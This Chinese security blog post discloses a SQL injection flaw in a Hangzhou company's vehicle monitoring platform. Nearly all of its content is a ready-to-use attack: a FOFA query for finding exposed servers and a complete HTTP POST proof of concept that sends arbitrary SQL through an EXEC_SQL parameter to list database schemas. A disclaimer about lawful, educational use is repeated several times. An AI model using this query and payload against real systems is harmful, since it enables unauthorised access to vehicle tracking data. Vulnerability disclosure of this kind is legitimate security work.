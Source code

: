 #  杭州三一谦成科技车辆监控服务平台 platformSql SQL注入漏洞   
 HK安全小屋   2025-06-03 14:53  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
杭州三一谦成科技车辆监控服务平台接口 /gps-web/platformSql 存在SQL 注入漏洞。  
  
  
影响版本：  
  
杭州三一谦成科技车辆监控服务平台  
  
  
FOFA:  
```
body="gps-web" && title="欢迎光临"
```  
  
  
POC：  
```
POST /gps-web/platformSql HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */* Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

action=EXEC_SQL&params=SELECT schema_name FROM information_schema.schemata
```  
  
成功进行数据查询  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2iaVBwHw3CnvVxxO5mibwbfk0KvABxoecHTYjTySBibRMVTDgvN1k0CM9ibMDcfBOBpMTUYwWkGZlBPQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
